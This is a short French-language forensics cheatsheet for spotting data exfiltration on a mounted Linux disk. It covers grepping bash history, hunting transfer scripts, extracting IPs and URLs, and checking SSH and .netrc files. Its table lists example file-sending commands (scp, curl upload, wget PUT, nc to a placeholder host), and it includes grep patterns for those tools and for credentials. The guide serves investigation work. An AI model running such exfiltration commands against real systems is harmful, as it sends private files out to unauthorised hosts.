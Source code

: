 # 🧾 Linux Exfiltration Forensics Cheatsheet

## 🔍 1. Historique de commandes
```bash
cat /mnt/liam_disk/home/liam/.bash_history
grep -aiE "scp|rsync|curl|wget|ftp|nc|ssh|sftp" /mnt/liam_disk/home/liam/.bash_history
```

## 🧠 2. Fichiers de scripts ou alias suspects
```bash
find /mnt/liam_disk/home/liam -type f -name "*transfer*"
cat /mnt/liam_disk/home/liam/transferfiles  # si c'est un script
```

## 🧰 3. Commandes d'exfiltration courantes

| Outil        | Exemple                                                    | But                                  |
|--------------|------------------------------------------------------------|---------------------------------------|
| `scp`        | `scp file.txt user@host:/path`                             | Envoi de fichier via SSH             |
| `rsync`      | `rsync -avz file.txt user@host:/path`                      | Sync sécurisé                        |
| `curl`       | `curl -T file.txt ftp://host --user user:pass`            | Upload HTTP/FTP                      |
| `wget`       | `wget --method=PUT --body-file=file.txt http://host/path` | Envoi HTTP                           |
| `ftp`        | `ftp host` → `put file.txt`                                | Envoi via FTP interactif             |
| `nc` (netcat)| `nc host port < file.txt`                                  | Transfert brut (non sécurisé)        |
| `ssh`        | `ssh user@host "cat > /path/file.txt" < file.txt`         | Upload par stream                    |
| `sftp`       | `sftp user@host` → `put file.txt`                          | Mode sécurisé de FTP via SSH         |

## 🛠️ 4. Fichiers suspects liés à ces commandes
```bash
grep -ai "host\|user\|pass\|ip" /mnt/liam_disk/home/liam/* 2>/dev/null
```

## 📡 5. Adresse IP ou domaine cible
```bash
grep -Eo '([0-9]{1,3}\.){3}[0-9]{1,3}' /mnt/liam_disk/home/liam/.bash_history
grep -Ei 'https?://[^ ]+' /mnt/liam_disk/home/liam/.bash_history
```

## 📁 6. Autres sources utiles
- `~/.ssh/known_hosts` → IPs/hosts précédemment contactés
- `~/.ssh/config` → redirections SSH
- `~/.netrc` → credentials FTP
- `cronjobs` → automatisation de l’exfiltration

---

💡 **Astuce** : croise les timestamps des commandes avec les connexions réseau dans `/var/log/auth.log` ou `/var/log/syslog`.
